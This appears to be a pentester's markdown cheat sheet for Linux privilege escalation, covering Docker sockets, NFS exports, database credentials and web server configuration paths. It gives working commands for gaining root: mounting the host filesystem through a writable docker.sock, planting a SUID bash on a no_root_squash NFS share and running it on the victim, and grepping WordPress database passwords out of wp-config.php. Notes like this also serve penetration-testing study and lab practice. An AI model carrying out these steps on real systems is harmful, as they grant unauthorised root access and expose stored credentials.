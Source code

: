### Sockets:

```bash
netstat -a -p --unix		# See if there is a docker
```

```bash
find / -iname "docker.sock" 2>/dev/null	# Look for write permission
```

- If writable:

  ```bash
   docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
  ```

### NFS exports

```bash
cat /etc/exports
```

- **no_root_squash**, then you can access it from as a client and write inside that directory as if you were the local root of the machine. 
- **no_all_squash** allows to emulate a non-root user

1. Check if NSF Port (2049) is Reachable → Forward It if Not

2. From Kali's `root` Session

   ````bash
   # Mount folder
   sudo mount -t nfs [VICTIM_IP]:/[NFS_SHARE] /mnt
   # copy a binary (e.g. bash) and make it suid
   cp /bin/bash /mnt
   chmod u+s /mnt/bash
   ````

3. Victim's Session → Execute `./bash -p` Inside NFS Share

### Databases

- MySQL
  - Wordpress: `cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'`
-  PSQL 
- MSSQL 
- MongoDB 
- Oracle

### HTTP

- Nginx / Apache Configs
  - Logs
    - `ls -la /var/log/[nginx/apache2]`
    - `access.log / error.log`
  - Virtual Hosts VHOSTS
    - Nginx  
	    - `/etc/nginx/nginx.conf`
	    - `etc/nginx/sites-*/`
	    - `/etc/nginx/conf.d/default.conf`
	    - `/etc/nginx/conf.d/site.conf`
	    - `/etc/nginx/conf.d/app.conf`
	    - `/etc/nginx/sites-enabled/default`
    - Apache -> `/etc/apache2/*.conf`, eg `000-default.conf`
    - Also try `/usr/local/etc/` instead of `/etc`
    - Node.js -> `server.js`
- Web Root Access
  - `/var/www/[HOSTNAME/html]`, `/srv/[http/html]`, `/opt`
  - Strings -> `grep -Rnw -li . -e "[STRING]" 2>/dev/null`